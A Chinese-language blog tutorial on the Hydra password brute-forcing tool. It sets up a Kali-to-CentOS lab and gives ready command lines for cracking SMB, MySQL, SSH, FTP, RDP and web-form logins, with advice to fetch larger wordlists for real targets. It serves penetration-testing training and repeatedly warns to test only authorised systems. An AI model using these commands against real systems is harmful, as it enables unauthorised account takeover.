 # 原创
：  19-5 hydra爆破

# 19-5 hydra爆破

#### 导语

        Hydra 是一个用于暴力破解登录凭据的网络安全工具。它可以通过尝试多个用户名和密码组合来攻击目标系统，以获得未经授权的访问权限。

        Hydra 支持多种协议和服务，包括常见的 SSH、FTP、Telnet、HTTP、SMTP 等。它可以通过使用字典文件或生成密码的模式进行强制破解。可以通过命令行参数来配置 Hydra 的行为，例如指定要攻击的目标、设置并发连接数、定义用户名和密码列表等。

        由于 Hydra 是一种攻击工具，因此在使用时需要小心谨慎，并遵循法律和道德规范。它通常用于渗透测试和安全评估，以帮助发现系统中存在的安全漏洞，并加强对这些漏洞的防范。

#### Hydra常用命令

以上是Hydra的常用命令，可以根据需要选择适当的选项进行暴力破解。请注意，在使用Hydra进行安全测试时，必须遵守法律和道德规范，并且仅在授权的系统上进行测试。

**Hydra是一个强大的密码爆破工具，支持多种服务和协议。以下是一些Hydra支持的常见服务和协议：**

这只是一部分Hydra支持的服务和协议列表，还有其他更多的服务和协议可供使用。请注意，在使用Hydra进行密码爆破时，确保遵守法律法规和获得适当的授权。

#### 环境准备： 

kali作为攻击机（自带Hydra），再找一台虚拟机作为靶机（我这里用 CentOS 7）。[构建完善的安全渗透测试环境：推荐工具、资源和下载链接_渗透测试靶机下载-CSDN博客](https://blog.csdn.net/weixin_43263566/article/details/129031187)

查看一下靶机（CentOS 7）的ip

```
ifconfig
```

#### Hydra使用示例： 

##### 1）Windows系统密码破解：

SMB服务稳定且速度快，不容易被封禁IP。

```
hydra -I 用户名 -p 密码 smb://ip -v
```

或者

```
hydra -l 用户名 -p 密码 smb://ip -v // -v（显示爆破详细信息）
```

##### 2）MySQL密码破解：

数据库通常会提供默认账户，如SQL Server的sa用户、MySQL的root用户、Oracle的System用户等。以下是破解MySQL数据库的示例：

```
hydra -L 用户名列表文件 -P 密码列表文件 ip mysql
```

或者

```
hydra -L 用户名列表文件 -P 密码列表文件 mysql://目标IP -mysql 端口号
```

##### 3）SSH密码破解：

```
hydra -l 用户名 -P 密码字典文件 -t 线程数 -vV -e -nsr ip ssh
```

我这里自己写了几个简单的用户、密码字典用做演示

开始爆破，我这里是用自己写的简单字典文件，如果是真实环境可以上gitee、github下载详细的字典进行爆破（如果要爆破其他服务协议就将命令后面的ssh改成需要的服务名就行）

```
hydra -L /home/kali/桌面/user.txt -P /home/kali/桌面/pass.txt -t 16 -vV 192.168.1.5 ssh 
```

##### 4）FTP密码破解：

```
hydra -L 用户名列表文件 -P 密码字典文件 -t 线程数 -o save.log -vV ip ftp
```

如果目标FTP不在默认的21端口上，可以使用-s参数指定正确的端口。

##### 5）RDP密码破解：

如果不支持RDP模块，请尝试升级Hydra，命令：apt install hydra

```
hydra ip rdp -l administrator -P pass.txt -V
```

##### 6）HTTPS密码破解：

```
hydra -m /index.php -l 用户名 -P 密码字典文件 目标ip https
```

##### 7）使用GET方式提交破解Web登录：

```
hydra -l 用户名 -p 密码字典文件 -t 线程数 -vV -e -ns 目标ip http-get /web/
```

##### 8）使用POST方式提交破解Web登录：

```
hydra -l admin -p small.txt 域名/ip -s 端口号 http-post-form "Pass-09/index.phpusername=^USER^&amp;password=^PASS^&amp;Login=LoginF=密码错误" -v
```

其中，F表示错误信息。根据实际情况填写。
